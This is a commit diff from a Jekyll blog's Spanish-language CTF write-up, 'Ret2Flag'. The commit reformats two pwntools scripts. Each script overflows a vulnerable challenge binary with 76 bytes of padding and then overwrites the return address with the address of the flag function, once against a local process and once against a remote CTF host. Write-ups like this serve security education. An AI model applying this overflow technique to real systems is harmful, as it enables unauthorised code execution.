

Before and after one commit to Br4ck3ts/Br4ck3ts.github.io, a Jekyll site: the page built from _posts/Ret2Flag-CTF-Q4SB/2020-06-25-Ret2Flag-CTF-Q4SB.md, in a window 1280 px wide and 1400 px high, scrolled down 2846 px. Shown: the whole window, without its empty margins (261-1027 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Updating ..

````diff
--- a/_posts/Ret2Flag-CTF-Q4SB/2020-06-25-Ret2Flag-CTF-Q4SB.md
+++ b/_posts/Ret2Flag-CTF-Q4SB/2020-06-25-Ret2Flag-CTF-Q4SB.md
@@ -33,12 +33,15 @@ Codigo:
 
 ```python
 #/usr/bin/python3
-from pwn import *#Ejecutar binario
-p=process(‘./ret2flag’)#Bytes para el crash 76
-payload=”A”*76
+from pwn import *
+#Ejecutar binario
+p=process('./ret2flag')
+#Bytes para el crash 76
+payload="A"*76
 #Direccion de la memoria de sym.flag 0x0840852d se debe entregar en little endian
-payload+=”\x2d\x85\x04\x08"#Esperamos el mensaje de la ejecucion del binario para enviar el payload
-p.recvuntil(‘Esta es la ultima vez en 32!’)
+payload+="\x2d\x85\x04\x08"
+#Esperamos el mensaje de la ejecucion del binario para enviar el payload
+p.recvuntil('Esta es la ultima vez en 32!')
 #Enviamos el payload
 p.sendline(payload)
 #Recibimos la respuest de forma interactiva
@@ -53,12 +56,15 @@ Por lo que ahora ya sabemos que funciona, lo haremos remoto solo le cambiamos la
 
 ```python
 #/usr/bin/python3
-from pwn import *#Ejecutar binario desde el host remoto
-p=remote(‘165.227.83.238’,8888)#Bytes para el crash 76
-payload=”A”*76
+from pwn import *
+#Ejecutar binario desde el host remoto
+p=remote('165.227.83.238',8888)
+#Bytes para el crash 76
+payload="A"*76
 #Direccion de la memoria de sym.flag 0x0840852d se debe entregar en little endian
-payload+=”\x2d\x85\x04\x08"#Esperamos el mensaje de la ejecucion del binario para enviar el payload
-p.recvuntil(‘Esta es la ultima vez en 32!’)
+payload+="\x2d\x85\x04\x08"
+#Esperamos el mensaje de la ejecucion del binario para enviar el payload
+p.recvuntil('Esta es la ultima vez en 32!')
 #Enviamos el payload
 p.sendline(payload)
 ```
````
